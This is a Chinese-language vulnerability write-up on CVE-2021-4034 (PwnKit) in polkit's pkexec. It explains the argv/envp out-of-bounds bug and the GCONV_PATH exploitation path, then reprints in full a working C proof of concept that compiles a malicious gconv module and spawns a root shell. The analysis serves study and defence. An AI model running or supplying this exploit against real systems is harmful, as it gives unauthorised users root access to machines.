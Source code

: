 ```yaml
---
title: CVE-2021-4034
date: 2022-01-27 20:53:00
tags: CVE-202104034
category: CVE Vulnerability
---
```


漏洞原文来自 [Qualys Security Blog](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) 

PoC1 来自 https://github.com/berdav/CVE-2021-4034

PoC2 来自 https://github.com/arthepsy/CVE-2021-4034

## 漏洞描述

Polkit 是用于在类 Unix 操作系统中控制系统范围特权的组件。它为非特权进程提供了与特权进程进行通信的有组织的方式。

Polkit 的 pkexec 存在本地权限提升漏洞，已获得普通权限的攻击者可通过此漏洞获取root权限。

该漏洞CVSS评分：7.8，危害等级：高危

漏洞利用难度低，最早引入问题的 commit 来自 2009 年，影响版本范围远超去年的 sudo 漏洞。

漏洞作者在 Ubuntu、Debian、Fedora 和 CentOS 的默认安装环境上均测试通过。

## 影响范围

由于Polkit为系统预装工具，所有主流Linux版本均受影响

## 漏洞分析

pkexec为polkit其中的一个组件，允许用户以另一个用户身份执行命令，其使用有点类似于sudo。

```bash
$ pkexec
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
```

因此其权限具有SUID，在执行时程序拥有文件所有者权限，也就是root。

```bash
$ ll /usr/bin/pkexec
-rwsr-xr-x 1 root root 31032 May 26  2021 /usr/bin/pkexec*
```

首先对其还未修复的代码进行审计，这里选用[尚未更新的源码](https://github.com/wingo/polkit/blob/master/src/programs/pkexec.c)进行分析。在main函数中，在533-567行处理命令行参数，for 循环从下标 1 开始遍历 argv[]。

```c
int
main (int argc, char *argv[])
{
    ...
    for (n = 1; n < (guint) argc; n++)
    {
        ...
    }
    ...
    path = g_strdup (argv[n]);
    ...
    if (path[0] != '/')
    {
        s = g_find_program_in_path (path);
        ...
        argv[n] = path = s;
        ...
    }
    ...
    if (clearenv () != 0)
    {
      g_printerr ("Error clearing environment: %s\n", g_strerror (errno));
      goto out;
    }
    ...
}
```

![image-20220127202308142](assets/image-20220127202308142.png)

然后在610行开始，会获取PROGRAM参数名称，也就是需要执行的程序。

![image-20220127202452874](assets/image-20220127202452874.png)

而问题就出现在这`n=1`上，当执行pkexec不传递任何参数时将会发生：

1.  在第 534 行，整数 n 永久设置为 1
2.  在第 610 行，从 argv[1] 越界读取指针路径
3.  在第 639 行，指针 s 被越界写入 argv[1]

但巧合的是，当执行程序时，内核会将参数，环境字符串和指针（argv 和 envp）复制到新程序堆栈的末尾

```
|---------+---------+-----+------------|---------+---------+-----+------------| 
| argv[0] | argv[1] | ... | argv[argc] | envp[0] | envp[1] | ... | envp[envc] | 
|----|----+----|----+-----+-----|------|----|----+----|----+-----+-----|------| 
```

如此看来，当越界读写argv[1]时，实际上读写的是envp[0]的值。

1.  假设我们执行pkexec，此时`argc=0`，`envp={"xxx"}`
2.  610行，程序会读取argv[1]到path变量中，也就是"xxx"
3.  632行，`s = g_find_program_in_path (path)`找到该程序的绝对路径，假设为/usr/bin/xxx
4.  639行，程序将s写入argv[1]和path，从而覆盖了第一个环境变量。此时envp也就变成了`{"/usr/bin/xxx"}`

如果把环境变量稍加更改，当`envp={"PATH=folder_name=."}`，在folder目录中放置一个可执行文件`lol`，最后在越界读写后`envp[0]`将会变成`folder_name=./lol`。

因此，这种越界读写会将一个新的不安全的环境变量引入pkexec的环境中（执行前所做的过滤将功亏一篑）

但是，程序的本身还是十分看中安全问题的，在701行程序会清除所有环境变量。也就是说，所有的漏洞利用需要在701行之前完成（不要想着LD_PRELOAD啦）。

![image-20220127204623040](assets/image-20220127204623040.png)

## 漏洞利用

在pkexec中多次使用了g_printerr()函数，该函数是调用GLib的函数。但是如果环境变量CHARSET不是UTF-8，g_printerr()将会调用glibc的函数iconv_open()，来将消息从UTF-8转换为另一种格式。

iconv_open函数的执行过程为：iconv_open函数首先会找到系统提供的gconv-modules配置文件，这个文件中包含了各个字符集的相关信息存储的路径，每个字符集的相关信息存储在一个.so文件中，即gconv-modules文件提供了各个字符集的.so文件所在位置，之后会调用.so文件中的gconv()与gonv_init()函数。

如果我们改变了系统的GCONV_PATH环境变量，也就能改变gconv-modules配置文件的位置，从而执行一个恶意的so文件实现任意命令执行。

具体的利用过程如下：

1.  首先一个gconv-modules配置文件，放置在./xxx目录下，其内容指向一个准备好的恶意so文件。
2.  创建可执行文件xxx，放置在./GCONV_PATH=.目录下，注意目录名称为`GCONV_PATH=.`
3.  然后调用pkexec，argc=0，envp=`{"xxx","PATH=GCONV_PATH=.","LC_MESSAGES=en_US.UTF-8"}`
4.  pkexec执行到610行，path=xxx
5.  pkexec执行到632行，找到xxx的具体位置，因为我们制定了环境变量`PATH=GCONV_PATH=.`，所以会找到xxx的具体位置为`GCONV_PATH=./xxx`
6.  pkexec执行到636行，envp[0] = argv[1] = path= `GCONV_PATH=./xxx`，此时envp为`{"GCONV_PATH=./xxx","PATH=GCONV_PATH=.","LC_MESSAGES=en_US.UTF-8"}`
7.  pkexec执行到643行，调用g_printerr，从而调用iconv_open()函数，找到gconv-modules配置文件：./xxx/gconv-modules，然后找到so文件，最终执行so文件。

我们只要在so文件的gonv_init()函数中，执行`/bin/sh`即可拿到一个root权限的shell。

EXP展示（来自PoC2）：

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

## 参考

https://saucer-man.com/information_security/876.html

https://mp.weixin.qq.com/s/3rnkcRfX_BxzlVzp0stQRw

感谢swing师傅的指导